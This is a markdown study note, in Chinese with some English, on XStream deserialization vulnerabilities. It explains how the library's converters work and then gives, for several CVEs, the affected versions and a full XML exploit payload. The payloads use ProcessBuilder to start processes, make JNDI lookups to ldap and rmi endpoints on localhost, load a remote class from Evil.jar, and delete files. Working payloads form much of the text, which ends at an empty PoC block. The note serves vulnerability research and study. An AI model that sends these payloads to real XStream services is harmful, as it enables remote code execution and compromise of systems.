








## 	基础

### 简介

XStream是一个简单的基于Java库，Java对象序列化到XML，反之亦然(即：可以轻易的将Java对象和xml文档相互转换)。

### 原理

#### 依赖

```xml
<dependency>
  <groupId>com.thoughtworks.xstream</groupId>
  <artifactId>xstream</artifactId>
  <version>1.4.1</version>
</dependency>
```

XStream实现了一套序列化和反序列化机制，核心是通过Converter转换器来将XML和对象之间进行相互的转换，XStream反序列化漏洞的存在是因为XStream支持一个名为DynamicProxyConverter的转换器，该转换器可以将XML中dynamic-proxy标签内容转换成动态代理类对象，而当程序调用了dynamic-proxy标签内的interface标签指向的接口类声明的方法时，就会通过动态代理机制代理访问dynamic-proxy标签内handler标签指定的类方法；利用这个机制，攻击者可以构造恶意的XML内容，即dynamic-proxy标签内的handler标签指向如EventHandler类这种可实现任意函数反射调用的恶意类、interface标签指向目标程序必然会调用的接口类方法；最后当攻击者从外部输入该恶意XML内容后即可触发反序列化漏洞、达到任意代码执行的目的。

### EventHandler类

EventHandler类是实现了InvocationHandler的一个类，建立从用户界面到应用程序逻辑的连接

EventHandler类定义的代码如下，其含有target和action属性，在EventHandler.invoke()->EventHandler.invokeInternal()->MethodUtil.invoke()的函数调用链中，会将前面两个属性作为类方法和参数继续反射调用

### Converter转换器

**具体的Converter转换器**: http://x-stream.github.io/converters.html

XStream为Java常见的类型提供了Converter转换器。转换器注册中心是XStream组成的核心部分。

转换器的职责是提供一种策略，用于将对象图中找到的特定类型的对象转换为XML或将XML转换为对象。

简单地说，就是输入XML后它能识别其中的标签字段并转换为相应的对象，反之亦然。

转换器需要实现3个方法：

- canConvert方法：告诉XStream对象，它能够转换的对象；
- marshal方法：能够将对象转换为XML时候的具体操作；
- unmarshal方法：能够将XML转换为对象时的具体操作；

### 基本使用

`Person.java`

```java
package pers.xstream;

import java.io.IOException;
import java.io.Serializable;

public class Person implements Serializable {
    private String name;
    private Integer age;
    private Company company;

    public Person(String name, Integer age, Company company) {
        this.name = name;
        this.age = age;
        this.company = company;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public Integer getAge() {
        return age;
    }

    public void setAge(Integer age) {
        this.age = age;
    }

    public Company getCompany() {
        return company;
    }

    public void setCompany(Company company) {
        this.company = company;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("person readObject....");
    }
}
```

`Company.java`

```java
package pers.xstream;

import java.io.IOException;
import java.io.Serializable;

public class Company implements Serializable {
    private String companyName;
    private String companyLocation;

    public Company() {
    }

    public Company(String companyName, String companyLocation) {
        this.companyName = companyName;
        this.companyLocation = companyLocation;
    }

    public String getCompanyName() {
        return companyName;
    }

    public void setCompanyName(String companyName) {
        this.companyName = companyName;
    }

    public String getCompanyLocation() {
        return companyLocation;
    }

    public void setCompanyLocation(String companyLocation) {
        this.companyLocation = companyLocation;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("company readObject.....");
    }
}
```

`Test.java`

```java
package pers.xstream;

import com.thoughtworks.xstream.XStream;

public class Test {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        Person person = new Person("RoboTerh", 19, new Company("xxx", "chengdu"));
        String xml = xStream.toXML(person);
        System.out.println(xml);
    }
}
```

上面就是将Person类对象转化为xml对象输出的具体代码，同时，在其中`Person` `Company`类的实现过程中实现了`Serializable`接口

Result:

````xml
<pers.xstream.Person serialization="custom">
  <pers.xstream.Person>
    <default>
      <age>19</age>
      <company serialization="custom">
        <pers.xstream.Company>
          <default>
            <companyLocation>chengdu</companyLocation>
            <companyName>xxx</companyName>
          </default>
        </pers.xstream.Company>
      </company>
      <name>RoboTerh</name>
    </default>
  </pers.xstream.Person>
</pers.xstream.Person>
````

If the interface is not implemented, we will get this:

```xml
<pers.xstream.Person>
  <name>RoboTerh</name>
  <age>19</age>
  <company>
    <companyName>xxx</companyName>
    <companyLocation>chengdu</companyLocation>
  </company>
</pers.xstream.Person>
```

why?

we can read the source code to get our answer! First, we will make a breaking point in `com.thoughtworks.xstream.XStream#toXML` and follow it.

And then call the marshal function

之后在`marshallingStrategy.marshal`中，跟踪`marshallingStrategy`方法他是一个`XStream`类的私有属性，是`MarshallingStrategy`对象，这个是一个接口，定义了`marshal unmarshal`方法，ctrl + H查看实现类，有`AbstractTreeMarshallingStrategy`在他的`marshal`方法中，调用了`TreeMarshaller#start`方法，在这个方法中调用了`convertAnother`方法，其中可以发现实现了`Serializable`接口的序列化使用的是`SerializableConverter`转换器

通过反射调用了对应类的readObject方法，所以在实现serializable接口的时候会调用对应的readObject方法

对于`TreeMarshaller` `TreeUnmarshaller`的说明

```java
TreeUnmarshaller 树解组程序，调用mapper和Converter把XML转化成java对象，里面的start方法开始解组，convertAnother方法把class转化成java对象。

TreeMarshaller 树编组程序，调用mapper和Converter把java对象转化成XML，里面的start方法开始编组，convertAnother方法把java对象转化成XML
```

如果没有实现接口的类序列化就会使用`ReflectionConverter`, 即该Converter的原理是通过反射获取类对象并通过反射为其每个属性进行赋值

## 漏洞分析

### sorted-set

CVE-2013-7258

#### 影响版本

##### 1.4.5 1.4.6 1.4.10	

#### 版本说明

##### 1.3.1

在这个版本运行payload, 发现

```java
Exception in thread "main" com.thoughtworks.xstream.mapper.CannotResolveClassException: sorted-set : sorted-set
```

说明不能解析`sorted-set`标签

##### 1.4 - 1.4.4

因为在TreeSetConverter.unmarshal中，因为需要满足`treemap`不为空才能调用`populateTreeMap`，但是`sortedMapField`默认为null，因此无法成功利用



##### 1.4.7 - 1.4.9

在`ReflectionConverter#canConvert`中添加了对`eventHandler`的过滤

```java
public boolean canConvert(Class type) {
    return ((this.type != null && this.type == type) || (this.type == null && type != null && type != eventHandlerType))
        && canAccess(type);
}
```

##### 1.4.11及之后

因为在`SecurityMapper#readClass`获取类之后，通过for循环进行了过滤

```java
for (int i = 0; i < permissions.size(); ++i) {
    final TypePermission permission = (TypePermission)permissions.get(i);
    if (permission.allows(type))
        return type;
}
```



直接对`java.beans.EventHandler`进行了限制

#### poc

```xml
<sorted-set>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>cmd</string>
                    <string>\C</string>
                    <string>calc</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

#### 分析

见[sorted-set分析.md](sorted-set分析.md)

#### CVE-2021-21351

##### 影响版本

###### <= 1.4.15

##### poc

```xml
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__useServicesMechanism>false</__useServicesMechanism>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

##### 分析

这个链子主要是通过`javax.naming.ldap.Rdn$RdnEntry#compareTo`中对两个value进行的比较，调用了`value`即`com.sun.org.apache.xpath.internal.objects.XRTreeFrag`的`equals`方法，进而调用了`toString`方法，到最后到达了fastjson JdbcRowSetImpl链的调用`setAutoCommit`方法

### tree-map

#### 影响版本

##### 1.4-1.4.6 1.4.10

#### 版本说明

##### 1.3.x

出现错误：

```java
Exception in thread "main" com.thoughtworks.xstream.converters.ConversionException: TreeMap does not contain <comparator> element
```

PoC中两个子标签元素调用`compareTo()`进行比较，因此无法利用

##### 1.4.7-1.4.9

`ReflectionConverter.canConvert()`函数中添加了对`EventHandler`类的过滤

##### 1.4.11及以后

存在对`java.beans.EventHandler`的过滤

#### poc

```xml
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>cmd</string>
                        <string>/C</string>
                        <string>calc</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

#### 分析

和使用`sorted-set`标签差不多

在上面的分析中，找到了对应的接口`java.util.SortedSet`，之后寻找到的实现类是`java.util.TreeSet`转换器为`TreeSetConvertor`

这里的实现类是本身，转换器为`TreeMapConvertor`

### jdk.nashorn.internal.objects.NativeString

> 在 1.4.15及以后被禁掉

#### CVE-2020-26217

##### 影响版本

###### <=1.4.13

##### 版本说明

###### 1.3.x

```java
Caused by: com.thoughtworks.xstream.converters.reflection.ObjectAccessException: Cannot construct jdk.nashorn.internal.objects.NativeString as it does not have a no-args constructor
```

###### 1.4.14及以后

在`com.thoughtworks.xstream.XStream`中添加了对`java.lang.ProcessBuilder`的过滤

```java
protected void setupSecurity() {
    if (securityMapper == null) {
        return;
    }

    addPermission(AnyTypePermission.ANY);
    denyTypes(new String[]{"java.beans.EventHandler", "java.lang.ProcessBuilder", "javax.imageio.ImageIO$ContainsFilter"});
    denyTypesByRegExp(new Pattern[]{LAZY_ITERATORS, JAVAX_CRYPTO});
    allowTypeHierarchy(Exception.class);
    securityInitialized = false;
}
```

##### poc

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>calc</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

##### 分析

见[CVE-2020-26217分析](CVE-2020-26217分析.md)

#### CVE-2020-26259

> 这是一个根据`jdk.nashorn.internal.objects.NativeString`的文件删除漏洞

##### 影响版本

###### <= 1.4.14

##### 版本说明

###### 1.3.x

和上面差不多

###### 1.4.15及之后

禁用了`jdk.nashorn.internal.objects.NativeString`

##### poc

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
                            <tempFile>/test.txt</tempFile>
                        </is>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

##### 分析

见[CVE-2020-26259分析.md](CVE-2020-26259分析.md)

### java.util.PriorityQueue

> 

#### CVE-2021-21344

##### 影响版本

###### <= 1.4.15

##### 版本说明

###### 1.3.x

> Cannot construct sun.awt.datatransfer.DataTransferer$IndexOrderComparator as it does not have a no-args constructor

###### 1.4.16及之后

https://github.com/x-stream/xstream/compare/XSTREAM_1_4_15...XSTREAM_1_4_16#diff-25808589fab633152848e5b504af8646ee4fa4b9e97765bdf6a3598870869d04L651



将`sun.awt.datatransfer.DataTransferer$IndexOrderComparator`这个`comparator`被禁了

##### poc

```xml
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
                <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
                    <packet>
                        <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
                            <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                                    <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                                        <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                                            <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                                            <uriProperties/>
                                            <attributeProperties/>
                                            <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                                                <getter>
                                                    <class>com.sun.rowset.JdbcRowSetImpl</class>
                                                    <name>getDatabaseMetaData</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName/>
                                        <context>
                                            <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                                                <outer-class reference='../..'/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
                                            </nameList>
                                        </context>
                                    </bridge>
                                </bridge>
                                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                                    <javax.sql.rowset.BaseRowSet>
                                        <default>
                                            <concurrency>1008</concurrency>
                                            <escapeProcessing>true</escapeProcessing>
                                            <fetchDir>1000</fetchDir>
                                            <fetchSize>0</fetchSize>
                                            <isolation>2</isolation>
                                            <maxFieldSize>0</maxFieldSize>
                                            <maxRows>0</maxRows>
                                            <queryTimeout>0</queryTimeout>
                                            <readOnly>true</readOnly>
                                            <rowSetType>1004</rowSetType>
                                            <showDeleted>false</showDeleted>
                                            <dataSource>ldap://127.0.0.1:9999/Evil</dataSource>
                                            <params/>
                                        </default>
                                    </javax.sql.rowset.BaseRowSet>
                                    <com.sun.rowset.JdbcRowSetImpl>
                                        <default>
                                            <iMatchColumns>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                            </iMatchColumns>
                                            <strMatchColumns>
                                                <string>foo</string>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                            </strMatchColumns>
                                        </default>
                                    </com.sun.rowset.JdbcRowSetImpl>
                                </jaxbObject>
                            </dataSource>
                        </message>
                        <satellites/>
                        <invocationProperties/>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

##### 分析

见[CVE-2021-21344分析.md](CVE-2021-21344分析.md)

#### CVE-2021-21345

##### 影响版本

###### <=1.4.15

##### 版本说明

和上一个CVE一样

##### poc

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>calc</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

##### 分析

见[CVE-2021-21345分析](CVE-2021-21345分析.md)

#### CVE-2021-21347

##### 影响版本

###### <= 1.4.15

##### poc

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>Evil</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='java.net.URLClassLoader'>
                  <ucp class='sun.misc.URLClassPath'>
                    <urls serialization='custom'>
                      <unserializable-parents/>
                      <vector>
                        <default>
                          <capacityIncrement>0</capacityIncrement>
                          <elementCount>1</elementCount>
                          <elementData>
                            <url>http://127.0.0.1:80/Evil.jar</url>
                          </elementData>
                        </default>
                      </vector>
                    </urls>
                    <path>
                      <url>http://127.0.0.1:80/Evil.jar</url>
                    </path>
                    <loaders/>
                    <lmap/>
                  </ucp>
                  <package2certs class='concurrent-hash-map'/>
                  <classes/>
                  <defaultDomain>
                    <classloader class='java.net.URLClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
                    </key>
                  </defaultDomain>
                  <initialized>true</initialized>
                  <pdcache/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>-2147483648</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

##### 分析

这里主要是通过`JavacProcessingEnvironment#hasNext`方法中存在有`processorCL`属性存在调用`loadClass`方法，且参数可控



#### CVE-2021-21350

##### 影响版本

###### <= 1.4.15

##### poc

```xml
